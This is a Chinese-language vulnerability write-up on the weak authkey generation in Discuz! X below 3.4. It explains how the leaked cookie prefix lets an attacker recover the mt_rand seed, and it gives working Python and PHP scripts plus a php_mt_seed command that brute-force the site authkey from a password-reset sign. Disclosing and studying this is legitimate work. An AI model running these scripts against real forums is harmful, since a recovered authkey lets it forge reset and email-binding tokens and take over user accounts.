

Discuz! X \< 3.4 authkey 算法的安全性漏洞
=========================================

一、漏洞简介
------------

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等...

二、漏洞影响
------------

php\>5.3+php-curl\<=7.54

-   Discuz\_X3.3\_SC\_GBK

-   Discuz\_X3.3\_SC\_UTF8

-   Discuz\_X3.3\_TC\_BIG5

-   Discuz\_X3.3\_TC\_UTF8

-   Discuz\_X3.2\_SC\_GBK

-   Discuz\_X3.2\_SC\_UTF8

-   Discuz\_X3.2\_TC\_BIG5

-   Discuz\_X3.2\_TC\_UTF8

-   Discuz\_X2.5\_SC\_GBK

-   Discuz\_X2.5\_SC\_UTF8

-   Discuz\_X2.5\_TC\_BIG5

-   Discuz\_X2.5\_TC\_UTF8

三、复现过程
------------

### 漏洞分析

在dz3.3/upload/install/index.php 346行

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

    $_config['cookie']['cookiepre'] = random(4).'_';

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php\_mt\_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

    # coding=utf-8
    w_len = 10
    result = ""
    str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
    length = len(str_list)
    for i in xrange(w_len):
        result+="0 "
        result+=str(length-1)
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    sstr = "sW7c"
    for i in sstr:
        result+=str(str_list.index(i))
        result+=" "
        result+=str(str_list.index(i))
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    print result

得到参数,使用php\_mt\_seed脚本

https://github.com/ianxtianxt/php-mt\_rand

    ./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

    <?php
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }
    $fp = fopen('result.txt', 'rb');
    $fp2 = fopen('result2.txt', 'wb');
    while(!feof($fp)){
        $b = fgets($fp, 4096);
        if(preg_match("/seed = (\d)+/", $b, $matach)){
            $m = $matach[0];
        }else{
            continue;
        }
        // var_dump(substr($m,7));
        mt_srand(substr($m,7));
        fwrite($fp2, random(10)."\n");
    }
    fclose($fp);
    fclose($fp2);

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16\*\*6\*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php`
65行生成用于验证的sign值。

跟随make\_getpws\_sign函数进入`/source/function/function_member.php`

然后进入dsign函数，配合authkey生成结果

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
>
> 自行修改第7,8,13行代码

    # coding=utf-8
    import itertools
    import hashlib
    import time
    def dsign(authkey):
        url = "http://127.0.0.1/dz3.3/"
        idstring = "vnY6nW"
        uid = 2
        uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
        url_md5 = hashlib.md5(uurl+authkey)
        return url_md5.hexdigest()[:16]
    def main():
        sign = "af3b937d0132a06b"
        str_list = "0123456789abcdef"
        with open('result2.txt') as f:
            ranlist = [s[:-1] for s in f]
        s_list = sorted(set(ranlist), key=ranlist.index)
        r_list = itertools.product(str_list, repeat=6)
        print "[!] start running...."
        s_time = time.time()
        for j in r_list:
            for s in s_list:
                prefix = "".join(j)
                authkey = prefix + s
                # print dsign(authkey)
                if dsign(authkey) == sign:
                    print "[*] found used time: " + str(time.time() - s_time)
                    return "[*] authkey found: " + authkey
    print main()

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
